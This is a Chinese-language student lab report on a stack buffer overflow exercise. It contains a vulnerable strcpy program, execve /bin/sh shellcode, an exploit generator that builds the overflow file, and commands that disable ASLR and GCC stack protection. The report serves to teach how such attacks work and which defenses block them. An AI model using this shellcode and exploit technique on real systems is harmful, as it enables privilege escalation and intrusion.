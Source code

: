 # 缓存溢出攻击实验

根据课程方向、本人兴趣，进行了buffer overflow实验

## 实验过程
因为系统环境是64位，实验环境需要用32位，因此安装32位的lib。
系统启动内存地址随机化，缓存溢出攻击会被防止，因此关闭内存地址随机化机制，指令如下。

```
sudo sysctl -w kernel.randomize_va_space=0
```

为了重现这一防护措施被实现之前的情形，我们使用另一个shell程序（zsh）代替/bin/bash

```
ln -s /bin/zsh /bin/sh
```

##代码分析

- shellcode
```
#include <stdio.h>
int main( ) {
char *name[2];
name[0] = ‘‘/bin/sh’’;
name[1] = NULL;
execve(name[0], name, NULL);
}
```
若执行该代码，则用户可以拿到root权限，汇编版本如下
```
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
-	有漏洞的程序

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
char buffer[12];
strcpy(buffer, str);

return 1;
}

int main(int argc, char **argv)
{
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
bof(str);
printf("Returned Properly\n");
return 1;
}
```
因为，该代码使用有漏洞的函数strcpy(),可以导致缓存溢出，由于该函数不检查矩阵的大小，因此可以导致缓存溢出并覆盖现有的数据，如返回地址。
写完代码编译的时候要关闭GCC的缓存溢出防护机制，细节如下。
```
-z execstack ：允许执行stack
-fno-stack-protector ：关闭gcc缓存溢出防护机制。 
```
-	攻击程序
```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=

"\x31\xc0"    //xorl %eax,%eax
"\x50"        //pushl %eax
"\x68""//sh"  //pushl $0x68732f2f
"\x68""/bin"  //pushl $0x6e69622f
"\x89\xe3"    //movl %esp,%ebx
"\x50"        //pushl %eax
"\x53"        //pushl %ebx
"\x89\xe1"    //movl %esp,%ecx
"\x99"        //cdq
"\xb0\x0b"    //movb $0x0b,%al
"\xcd\x80"    //int $0x80
;

void main(int argc, char **argv)
{
char buffer[517];
FILE *badfile;
memset(&buffer, 0x90, 517);
strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90""攻击代码的地址");
strcpy(buffer+100,shellcode);
badfile = fopen("./badfile", "w");
fwrite(buffer, 517, 1, badfile);
fclose(badfile);
}
```
生成一个文件并写517子节点"\x90"，然后从开到28字节（24字节dummy + 4字节shellcode的地址），再从地100字节写下去shellcode。
由于代码未完成（没有攻击代码地址），因此需要得到其地址，首先用gdb查到buffer的地址，然后加100（\x64）即可得到攻击代码的地址，将攻击程序里的攻击代码地址改成此时得到的地址（例如：\x82\xd5\xff\xff），此时要注意顺序（即little-endian）。 

编译好攻击程序之后，先执行攻击程序，然后执行有漏洞的程序，结果可以拿得到root权限

##练习
1、按照实验步骤进行操作，攻击漏洞程序并获得root权限。

= 已完成

2、通过命令”sudo sysctl -w kernel.randomize_va_space=2“打开系统的地址空间随机化机制，重复用exploit程序攻击stack程序，观察能否攻击成功，能否获得root权限。

= 由于该命令是Linux系统启动内存地址随机化机制，结果攻击不能成功。

3、将/bin/sh重新指向/bin/bash（或/bin/dash），观察能否攻击成功，能否获得root权限。

= bin/bash 里还有防护机制，也不能成功此攻击。

##心得
通过进行缓存溢出攻击实验可以体会缓存溢出的方法并得知栈溢出的原理，希望有在运行防护机制环境下的实验项目。

